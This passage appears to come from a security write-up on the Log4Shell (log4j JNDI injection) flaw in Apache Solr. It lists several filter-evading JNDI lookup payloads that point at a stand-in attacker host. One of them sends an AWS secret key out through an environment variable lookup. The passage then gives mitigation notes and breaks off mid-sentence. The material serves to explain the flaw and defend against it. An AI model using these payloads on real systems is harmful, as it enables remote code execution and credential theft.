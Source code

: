 ```
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
```

```
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
```

```
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
```

```
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
```

```
${${::-j}ndi:rmi://attackerendpoint.com/}
```

Additionally, within the log4j engine, you can expand arbitrary environment variables (if this wasn't already bad enough).

Consider the damage that could be done even with remote code execution, but a simple LDAP connection and exfiltration of **`${env:AWS_SECRET_ACCESS_KEY}`**

## Mitigations

Review the mitigation techniques suggested on the Apache Solr website. [https://solr.apache.org/security.html](https://solr.apache.org/security.html)

The Apache Solr website Security page explains that you can add this specific syntax to the **`solr.in.sh`** file:

We found it using `locate solr.in.sh`

![](<../../.gitbook/assets/image (2) (1) (2).png>)

After restarting the service
